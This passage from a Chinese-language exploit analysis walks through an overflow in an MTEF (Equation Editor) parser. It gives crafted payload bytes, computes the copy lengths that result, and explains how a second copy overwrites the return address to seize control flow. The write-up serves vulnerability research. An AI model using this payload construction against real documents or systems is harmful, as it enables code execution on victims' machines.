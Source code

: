 ```

44 // 确保进入case 4

66 // 填充用，随意

77 // 填充用，随意

09 // 填充用，随意

05 // 填充用，随意

AA // 填充用，随意

55 // 确保进入第2个case 4

10 // sub_443e34内读入的第1个字节

11 // sub_443e34内读入的第2个字节

12 // sub_443e34内读入的第3个字节

1c // 等待计算以决定拷贝大小的长度1

4c // 等待计算以决定拷贝大小的长度2
```

calc_length = (arg0 × 2 + 9) &gt;&gt; 3文章最开始(图2)我们已经知道拷贝长度的计算公式为：

我们来看一下1c和4c返回的值分别为多少：

```
-- python --

print hex((2 * 0x1c + 9) &gt;&gt; 3)

0x8



print hex((2 * 0x4c + 9) &gt;&gt; 3)

0x14
```

现在，把checkpoint截图中的数据全部抄过来后，我构造的数据如下(图18)：由前面的图3可以看到checkpoint提供的两个长度，在拷贝完后分别会拷贝8个字节和20个字节，也即第一次调用sub_443F6c会覆盖v6(含)到v8(不含)的0x8个字节，第二次调用sub_443F6c会覆盖vac_C(含)到ret_addr(含)的0x14个字节。从而成功覆盖返回地址，获取控制流。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01e82e6197c3b31e56.png)

图18

```
03 01 01 03 0A // MTEF头部

0A // 初始SIZE

09 // tag

64 // 0n100

22 // lsize

1c // dsize-high-byte

4c // dsize-low-byte
```